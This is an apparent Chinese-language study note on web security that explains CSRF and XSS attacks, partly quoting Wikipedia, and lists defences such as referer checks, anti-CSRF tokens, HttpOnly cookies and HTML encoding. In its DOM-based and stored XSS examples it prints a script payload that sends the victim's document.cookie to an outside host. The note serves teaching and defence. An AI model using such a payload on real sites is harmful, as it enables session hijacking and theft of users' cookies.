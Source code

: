 ### CSRF(跨站请求伪造)

> 以下内容均来自维基百科。

其他名称: `one-click attach`或者`session riding`, 也可以缩写为`XSRF`。

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。

由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。它利用的是网站对用户网页浏览器的信任。

这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

### 防御方法

1. 检查referer字段, 在服务端校验referer是否是当前网站的地址。 

2. 添加校验token, 由于CRSF的本质在于攻击者欺骗用户去访问自己设置的网址，所以如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在cookie中，并且攻击者无法伪造的数据做校验，那么攻击者就无法再执行CSRF攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求时，这个伪乱数也一并提交上去以供校验。正常访问的时候，客户端浏览器能够正确得到并传回这个伪乱数，而通过CSRF传回来的欺骗性攻击中，攻击者没法事先得知这个伪乱数的值，服务器就会因为检验token的值为空或者错误，拒绝这个可疑请求。

### XSS(跨站脚本攻击)

> 以下内容来自维基百科以及其他人的博客。

它是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指定代码到网页，使用户加载并执行攻击者恶意制造的网页程序。攻击成功后，攻击者可能得到更高的权限(如执行一些操作)、私密网页内容、会话和cookie等各种内容。

XSS攻击漏洞一般分为两种，一种是`DOM Based XSS`漏洞，另一种是`Stored XSS`漏洞。理论上, **所有可以输入的地方**没有对输入数据进行处理的话，都会存在XSS漏洞。

#### DOM Based XSS

DOM Based XSS是一种基于网页DOM结构的攻击，该攻击特点是中招的人是少数人。这个和CSRF有一点儿类似，但是要注意区分，因为XSS是注入脚本的。

```
http://www.blueidea.com/common/searchbykey.asp?keyword=<script>window.open("http://www.test.com?param=" + document.cookie)</script>
```

当别人(假设是小A)点击这个连接的时候，会将当前页面的cookie获取到，然后传递给`www.test.com`这个网站，往往攻击者的这个网站`www.test.com`会将受害者的资料给存到自己的数据库里去。这个过程中，受害者就只有小A。

那么如何攻击更多的人受害呢？

#### Stored XSS

Stored XSS是存储式漏洞，通过将代码存到数据库里，这样就可以攻击很多人了。

比如a.com可以发文章，我登录A了后，并发了一篇文章，文章中包含了恶意代码: `<script>window.open("http://www.test.com?param=" + document.cookie)</script>`, 如果a.com这个网站没有做出防范的话，那么这个文章就插入到数据库里去了。当别人查看我的文章的时候就中招了。

### 防御方法

原则: 永远不要相信用户的输入。
注意: 攻击代码不一定在script标签里。

1. 将重要的cookie标记为http only。
2. 对数据进行HTML编码处理。
